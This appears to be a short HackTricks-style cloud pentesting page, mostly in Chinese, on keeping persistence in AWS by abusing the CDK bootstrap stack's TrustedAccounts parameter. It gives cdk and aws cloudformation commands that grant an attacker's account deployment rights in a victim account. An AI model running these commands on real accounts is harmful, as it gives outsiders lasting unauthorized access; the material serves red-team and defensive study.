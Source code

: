 # AWS - Cloudformation Persistence

{{#include ../../../banners/hacktricks-training.md}}

## CloudFormation

有关更多信息，请访问：

{{#ref}}
../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### CDK Bootstrap Stack

AWS CDK 部署一个名为 `CDKToolkit` 的 CFN 堆栈。该堆栈支持一个参数 `TrustedAccounts`，允许外部账户将 CDK 项目部署到受害者账户中。攻击者可以利用这一点授予自己对受害者账户的无限访问权限，方法是使用 AWS cli 重新部署带参数的堆栈，或使用 AWS CDK cli。
```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```
{{#include ../../../banners/hacktricks-training.md}}
